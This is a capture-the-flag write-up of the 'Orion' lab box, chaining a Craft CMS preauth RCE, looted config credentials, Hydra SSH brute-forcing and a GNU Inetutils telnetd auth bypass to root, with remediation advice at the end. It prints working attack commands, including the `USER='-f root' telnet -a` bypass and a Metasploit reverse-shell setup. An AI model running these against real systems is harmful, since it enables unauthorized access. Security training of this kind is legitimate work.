Orion
Orion is a web box front to back. The site runs an outdated Craft CMS 5.6.16, which
falls to the preauth image-transform RCE (CVE-2025-32432) for a shell as
www-data. Looting the web root, a .env and project.yaml hand us the
database password and, more usefully, the admin's email adam@orion.htb. That username is the
whole point: we crack adam's SSH password with Hydra and log in. As adam, an internal
look at listening ports finds a telnet service bound to loopback, running a vulnerable
GNU Inetutils telnetd (CVE-2026-24061). Setting USER=-f root
bypasses authentication and drops us straight to a root shell.
01Enumeration
Full port and service scan first:
$ nmap -sCV -p- -T4 --min-rate 5000 10.129.244.146
http://orion.htb/. SSH gives nothing without credentials, so we park it and add orion.htb to /etc/hosts.The site is a telecom marketing page. Wappalyzer and the footer tell the real story: it's a Craft CMS site on the Yii framework, PHP, nginx, Ubuntu:

The page is JavaScript-rendered so we can't right-click the source, but curl reads it fine and
confirms the stack straight from the response header:
$ curl -i http://orion.htb
X-Powered-By: Craft CMS confirmed in the header, with assets/js/main.js and the rest of the source below it.Asking for robots.txt returns a verbose Yii error page instead of a file. That tells us two
things at once: the app is in dev mode (leaking full stack traces), and it hands us real
server paths and the framework version:

yii\web\NotFoundHttpException debug page leaking /var/www/html/craft/web/index.php and, at the bottom, Yii Framework/2.0.51. Noted for the vulnerability assessment later.02Finding the admin panel
There isn't much on the public site, and everything points at Craft CMS being the way in, so we brute-force for directories:
$ feroxbuster -u http://orion.htb -w .../common.txt -x php,html,txt -t 50 -C 404,403 -o ferox_quick.txt
/admin redirects to /admin/login - the Craft control panel. (/assets returns 403, which just confirms it exists.)The login page is the Orion Telecom admin portal, and it helpfully prints the exact CMS version:

admin/admin, a few obvious pairs) go nowhere. Time to check the version itself.03Vulnerability assessment
With a concrete version in hand, we check for known exploits:
$ searchsploit craft cms
Reading it up, this is CVE-2025-32432, a preauth remote code execution flaw in Craft's image-transform handling (inherited from a Yii bug). Per NVD it's patched in 3.9.15, 4.14.15, and 5.6.17. Our target is 5.6.16, one release short of the fix, so it should work.
04Foothold - Craft CMS preauth RCE
There's a public PoC, but the flaw also has a Metasploit module that matches our CVE exactly, so we use it:

exploit/linux/http/craftcms_preauth_rce_cve_2025_32432, rank excellent. We take the Unix command-shell target.Set the target host and our listener, then run it:
msf > set RHOSTS orion.htb
msf > set LHOST 10.10.15.114
msf > run
www-data@orion.05Enumeration as www-data
Standard first checks. We have no sudo rights, and a user adam exists whose home we can't
read, so adam is the next rung:

www-data with no sudo (password required), on Ubuntu 22.04.5. /etc/passwd shows only root and adam with real shells.Since our shell starts in /var/www, that's where we hunt for credentials. Craft keeps its
secrets in a .env:

root / SuperSecureCraft123Pass!), the Craft security key, and confirmation that dev mode and allowAdminChanges are both on.Those database credentials turn out to be a dead end for now. MySQL isn't exposed externally (a quick
nmap -p 3306 shows it closed), and root / SuperSecureCraft123Pass!
fails against the admin login, SSH, and su. The more useful find is in Craft's
project.yaml:

adam@orion.htb. Until now we only had the name adam; this confirms the account and its format.adam@orion.htb gives us a confirmed login
name to target. On a box with SSH open and no account lockout, a known username plus a weak password is a
crackable combination.
06Foothold to adam - cracking SSH
With a valid username, we point Hydra at SSH and let it run against rockyou while we keep enumerating:
$ hydra -l adam -P /usr/share/wordlists/rockyou.txt 10.129.244.146 sshIt lands on a valid password for adam: darkangel. That logs straight in over SSH:
$ ssh adam@orion.htb # password: darkangelSo the whole first half was really about finding a username to crack. We re-run our basic privilege checks
as adam. The admin panel now opens with these same credentials, but its update warnings and known CMS issues
lead nowhere useful for privesc. A couple of things from enumeration stand out instead:
a .wget-hsts file shows adam previously fetched something from ftp.gnu.org, and the
.env had reminded us MySQL is running locally.
07Enumeration as adam
The services that never showed up in our external scan are the ones to check from the inside. Listing listening sockets:
$ ss -lntpLISTEN 127.0.0.1:23 # telnet, localhost only
LISTEN 127.0.0.1:3306 # MySQL, localhost onlyMySQL (127.0.0.1:3306) does accept the leaked database password, and as root it even has
FILE and full grants, but secure_file_priv and the lack of a useful write target
make it a dead end. Telnet on 127.0.0.1:23 is the odd one - an ancient service to find
running in 2026.
Comparing adam's binaries against a clean system turns up legacy r-services that shouldn't be there, and
rsh --version explains both the binaries and that ftp.gnu.org breadcrumb:
$ rsh --version
GNU inetutils 2.7.wget-hsts showed a fetch from ftp.gnu.org; the SUID rsh /
rlogin / rcp binaries and the loopback telnet service are what he built from it -
GNU Inetutils 2.7. A version string on a service that shouldn't exist is exactly the kind
of lead to run down before reaching for anything exotic.
08Privilege escalation - telnetd auth bypass
GNU Inetutils 1.9.3 through 2.7 has a critical remote authentication bypass in telnetd,
CVE-2026-24061. The daemon passes the client-supplied USER environment variable
(sent via the Telnet NEW-ENVIRON option) straight into the login command line
without sanitizing it. Set USER=-f root and the daemon runs login -f root, and
-f tells login to treat the session as already authenticated.
The telnet service is only bound to loopback, but we're already on the box as adam, so we trigger it
locally. The telnet client's -a flag sends our environment during negotiation:
$ env USER='-f root' telnet -a 127.0.0.1 23The daemon runs login -f root, skips authentication entirely, and hands us a
root shell. The root flag is in /root [flag
omitted]. Box owned.
127.0.0.1 because an external scan never sees it.
But once you have any local foothold, a loopback service is just as reachable as a public one -
and a pre-auth bypass on it is a direct line to root. Internal enumeration (ss -lntp) is what
surfaces these.
09Root cause & remediation
| Outdated Craft CMS (preauth RCE) 5.6.16 / CVE-2025-32432 |
Patch to 5.6.17+ (or the fixed 3.x/4.x release). Keep the CMS and its framework current, and put the control panel behind network ACLs so a single public preauth bug isn't instant code execution. |
| Dev mode and secrets in the web root | Verbose errors leaked server paths and the framework version. Disable CRAFT_DEV_MODE and set allowAdminChanges to false in production, and keep .env / project.yaml out of any web-readable location. |
| Weak, crackable SSH password | adam's password fell to rockyou once the username was known. Enforce strong passwords, use key-based SSH auth, and add rate limiting / lockout (fail2ban) so online brute-forcing isn't viable. |
| Vulnerable telnetd running as root GNU Inetutils 2.7 / CVE-2026-24061 |
Don't run telnet at all - it's obsolete and this version has a pre-auth root bypass. Remove the service, upgrade Inetutils to 2.8+ if it's truly needed, and strip the SUID r-service binaries. Loopback binding is not a mitigation once a local foothold exists. |
For context, the .env flags Craft's own guidance on locking production down:

allowAdminChanges to false in production locks schema and settings changes and limits the damage if an admin account is compromised - the opposite of how Orion was configured.10Takeaways
This box is a good reminder to really start simple and not get caught up in potential rabbit holes. The admin dashboard caught my interest, and so did the myriad of services and versions presented to me. It was easy to get lost in researching vulnerabilities and having endless possibilities flow through my mind. Orion, while easy, is a good reminder to just focus on the basics when it comes to privilege escalation: orient yourself, your surroundings, and your privileges, and only once those are exhausted move on to the more far out there ideas.
The chain itself is clean once you trust it: a public version number points at a preauth CMS RCE, looted config files hand over a username, that username makes an SSH password crackable, and internal enumeration turns up a loopback service with a pre-auth root bypass. Every step was found by enumerating what was in front of me rather than forcing anything. Fun box.